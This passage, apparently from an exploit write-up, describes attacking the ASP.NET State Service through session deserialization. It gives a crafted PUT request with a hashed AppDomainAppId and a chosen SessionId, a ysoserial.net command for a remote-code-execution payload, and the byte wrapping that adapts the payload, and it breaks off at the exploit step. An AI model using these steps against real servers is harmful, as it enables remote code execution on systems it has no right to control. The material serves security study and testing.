 **\<SHA256 of AppDomainAppId>**:
The SHA256 hash of AppDomainAppId in base64 encode:
```
base64(sha256("/LM/W3SVC/DONATE/ROOT")) = "Q382tQy2MH/DtwC0WQWxEWXoa3ZAQAq6kSajzPcAmuk="
```

**\<SessionId>**:
It's from HTTP request cookie, we can fill whatever we want. The only restriction is that the length of SessionId should be 24 and can only use letters or digits:
```
Cookie: ASP.NET_SessionId=cykucykucykucykucykucyku
```

**\<session data>**: 
The raw binary of serialized session data. This will be discussed in the next step. And don't forget to update Content-Length.

All fields have to be url encoded, except \<session data>.
After filling these fields, the whole request would look like:
```
PUT %2fLM%2fW3SVC%2fDONATE%2fROOT(Q382tQy2MH%2fDtwC0WQWxEWXoa3ZAQAq6kSajzPcAmuk%3d)%2fcykucykucykucykucykucyku HTTP/1.1
Host: localhost
Timeout:20
Content-Length:<length of session data>
ExtraFlags:1
LockCookie:0

...<session data>...
```

### Step 4: Generate evil 😈 session data (Deserialization)

The session data is deserialized by using `System.Web.SessionState.SessionStateUtility.DeserializeStoreData()`.

This method is based on `SessionStateItemCollection` and `HttpStaticObjectsCollection`. This tool [ysoserial.net](https://github.com/pwntester/ysoserial.net) already has a plugin to generate deserialization payload to exploit these two classes.

We can generate a RCE payload with this command:
```
ysoserial.exe
    -p Altserialization
    -M HttpStaticObjectsCollection
    -o base64 -c "<the windows command you wanna run>"
```

But this payload is just for exploiting `HttpStaticObjectsCollection`, what we want is to exploit `SessionStateUtility`. So we must modify the payload. This step will be processed done in my exploit code, basically it just needs to append 7 bytes to payload:

```
0x00 0x00 0x00 0x00 0x00 0x01 <payload> 0xff
```

## Step 5: Exploit
